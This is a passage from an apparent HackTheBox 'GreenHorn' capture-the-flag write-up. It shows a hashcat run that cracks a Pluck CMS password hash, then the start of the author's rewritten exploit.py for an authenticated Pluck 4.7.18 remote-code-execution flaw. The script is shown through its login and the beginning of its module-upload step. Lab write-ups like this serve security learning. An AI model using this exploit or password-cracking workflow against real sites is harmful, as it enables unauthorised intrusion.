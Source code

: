 ```bash
Streebog-512
IPMI 2.0 RAKP HMAC-SHA1 [HC: 7300]
Umbraco HMAC-SHA1 [HC: 24800]
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn]
└─$ hashcat loot/pluck.hash /opt/wordlists/rockyou.txt -m 1700
[...]

┌──(bravosec㉿fsociety)-[~/htb/GreenHorn]
└─$ hashcat loot/pluck.hash /opt/wordlists/rockyou.txt -m 1700 --show
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
```

### 80 - Pluck CMS : RCE

- Google : `pluck 4.7.18 exploit`

> POC (Not working) - https://www.exploit-db.com/exploits/51592

Since the POC doesn't work properly, I wrote a fixed version ([Github link](https://github.com/opabravo/pluck-cms-rce))

> `exploit.py`

```python
import os, sys, shutil
import random, string
import argparse
import tempfile
import requests
import time


session = requests.Session()
EPILOG_TXT='''
Example : python exploit.py -u http://pluck.local -p 'anti_sysadmin' -f phpinfo.php
'''


def gen_string():
    """Generate a random none-repeating string"""
    return ''.join(random.choices(string.ascii_lowercase, k=8))


def login(base_url: str, password: str):
    print('[*] Logging in')
    url = f'{base_url}/login.php'
    response = session.get(url)
    data = {
        'cont1': password,
        'bogus': '',
        'submit': 'Login in',
    }
    response = session.post(url, data=data)
    if 'Password incorrect' in response.text:
        print('[-] Failed to login')
        sys.exit(1)
    return response.text


def upload_module(base_url: str, php_fp: str):
    print('[*] Uploading module')
    url = f'{base_url}/admin.php?action=installmodule'
```